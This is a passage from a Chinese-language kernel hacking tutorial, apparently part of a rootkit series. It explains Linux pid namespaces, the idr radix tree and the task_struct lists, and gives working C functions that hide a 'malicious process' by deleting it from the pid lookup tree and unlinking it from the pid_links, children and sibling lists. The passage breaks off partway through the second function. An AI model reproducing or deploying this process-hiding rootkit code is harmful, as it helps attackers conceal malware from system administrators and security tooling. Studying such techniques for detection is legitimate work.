 > `inodes` 域似乎暂时没用：）

虽然所有的 `task_struct` 形成一个双向链表，但是遍历链表以找寻 pid 对应的 PCB 效率过低，因而有了基于 `pid` 结构体的索引，我们可以通过该结构体直接找到一个 pid 对应的 PCB，同时不同类型的进程（属于同一进程组 / 属于同一会话）也会通过 `task_struct->pid_links` 进行连接：

![](https://s2.loli.net/2023/03/08/RyzjPUSFZQpEWof.png)

一个进程在不同的 pid 命名空间内可能有着不同的 pid（其中子命名空间对父命名空间完全可见），内核通过 `upid` 结构体存储一个 `pid` 结构体在相应命名空间中的值，根据命名空间的父子层次结构存储在 `pid` 结构体中动态分配的 `upid` 数组中：

![](https://s2.loli.net/2023/03/08/TRxHWJKkVIvj9uA.png)

为了提高查找速度 ，`pid` 在内核中被组织成**基数树**（radix trie，对应 `idr` 结构体），当进行 `pid` 结构体查找时（`find_vpid()` ）实际上会先获取到当前进程的 pid 命名空间（`struct pid_namespace`）再进行基数树搜索

因此若是我们想要隐藏一个进程，使其无法被通过 pid 找到，只需要将其从对应的 pid 命名空间与所有上层 pid 命名空间中的基数树进行删除，并将 `task_struct` 从 `pid_links` 摘除即可

现笔者给出如下示例代码：

```
void nornir_hide_process_pid(struct task_struct *task, struct pid *pid)
{
    struct upid *upid;
 
    /* hide from pid's radix trie */
    for (int i = 0; i < pid->level; i++) {
        upid = pid->numbers + i;
        idr_remove(&upid->ns->idr, upid->nr);
    }
 
    /* hide from task_struct->pid_links */
    for (int i = 0; i < PIDTYPE_MAX; i++) {
        hlist_del_rcu(&task->pid_links[i]);
        INIT_HLIST_NODE(&task->pid_links[i]);
    }
}
```

> 需要注意的是删除链表后别忘了初始化链表节点，否则会 panic 掉
> 
> ![](https://s2.loli.net/2023/03/08/X4oVMp8kejhLBZW.png)

二、`task_struct` 链表隐藏
--------------------

在内核中一个进程使用 `task_struct` 表示，所有的 `task_struct` 构成一个双向链表，若是遍历该链表则很容易发现我们的恶意进程；此外，所有的 `task_struct` 按照进程亲子关系链接成树形结构，若是从 `init` 进程开始沿着这棵进行遍历的话仍然能够发现我们的恶意进程；以及还有 `thread_node` 和 `thread_group` 两个链表也可以让我们的恶意进程无处遁形 ：(

因此我们还需要完成将待隐藏进程从对应的链表中脱链的操作，现笔者给出如下示例代码：

```
void nornir_hide_process_task_struct(struct task_struct *task)
{
    /* set its parent to itself */
 
    task->parent = task;
    task->real_parent = task;
    task->group_leader = task;
 
    /* del from some link-list */
 
    list_del(&task->children);
    INIT_LIST_HEAD(&task->children);
 
    list_del(&task->sibling);
    INIT_LIST_HEAD(&task->sibling);
 
```